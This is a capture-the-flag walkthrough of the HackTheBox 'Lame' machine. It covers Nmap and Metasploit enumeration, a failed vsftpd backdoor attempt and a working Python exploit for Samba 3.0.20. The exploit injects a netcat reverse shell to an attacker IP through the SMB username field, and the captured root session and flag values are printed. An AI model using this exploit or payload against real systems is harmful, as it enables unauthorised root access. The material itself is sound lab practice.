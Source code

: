 # HackTheBox Lame Walkthrough

This is a Walkthrough how I get the user and root flag on the machine. All my scan results are stored in the [attachments](./attachments) folder.

achine details:

- Machine Name : Lame
- IP address: 10.10.10.3
- OS: Linux
- Difficulty: Easy

## Scanning

In this table I summarize the open ports and protocols and the XML version of the full results.

| Scan Type         | Open Ports/Protocols   | XML Output File                                |
|-------------------|------------------------|------------------------------------------------|
| Nmap IP Scan      | 1 (ICMP)               | [ip_legacy.xml](./attachments/ip_legacy.xml)   |
| Nmap TCP SYN Scan | 21, 22, 139, 445, 3632 | [tcp_legacy.xml](./attachments/tcp_legacy.xml) |
| Nmap UDP Scan     | -                      | [udp_legacy.xml](./attachments/udp_legacy.xml) |

## Enumeration

### OS Enumeration

The Nmap OS detection did not find clear match for OS. But the SMB enumeration found Unix (Debian).

### SMB Enumeration

```bash
root@Kali:/# msfconsole

 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

etasploit tip: Use the resource command to run commands from a file

msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > show options

odule options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)

msf5 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 auxiliary(scanner/smb/smb_version) > exploit

[*] 10.10.10.3:445        - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 10.10.10.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_version) >
```

### Searching Vulnerabilities

I google for [samba 3.0.20-debian exploit](https://www.google.com/search?q=samba+3.0.20-debian+exploit&oq=Samba+3.0.20-Debian&aqs=chrome.1.69i57j0l4.1529j0j9&sourceid=chrome&ie=UTF-8) and  for [vsftpd 2.3.4 exploit](https://www.google.com/search?q=vsftpd+2.3.4+exploit&oq=vsFTPd+2.3.4+&aqs=chrome.1.69i57j0l7.1471j0j7&sourceid=chrome&ie=UTF-8).

I found the following vulnerabilities:
- [exploit-smb-3.0.20.py](https://github.com/macha97/exploit-smb-3.0.20/blob/master/exploit-smb-3.0.20.py)
- [VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

## Exploit

### VSFTPD Exploit

I tried the Metaspoilt modul against the host but the exploit did not work:

```bash
root@Kali:/# msfconsole

               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:
                                :::::::+:
                      Metasploit

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

etasploit tip: View advanced module options with advanced

msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

odule options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) >
```

### SMB Exploit

I changed the the exploit code to use Netcat reverse shell instead of the Metasploit payload:

```python
#!/usr/bin/python3
#exploit Samba smbd 3.0.20-Debian

from smb import *
from smb.SMBConnection import *

userID = '/=` nohup nc 10.10.14.23 4444 -e /bin/sh`'
password = 'password'
victim_ip = '10.10.10.3'

conn = SMBConnection(userID, password, "HELLO", "TEST", use_ntlm_v2=False)
conn.connect(victim_ip, 445)

```

#### Shell 1: Use the Exploit

```bash
root@Kali:/# python3 smb_exploit.py
```

#### Shell 2: Listen for the Connection

The session already has ROOT privilege so the only think left is to find the user and root flag on the machine.

```bash
root@Kali:/# nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:56066.
id
uid=0(root) gid=0(root)
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
pwd
/
cat /root/root.txt
92caac3be140ef409e45721348a4e9df
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```


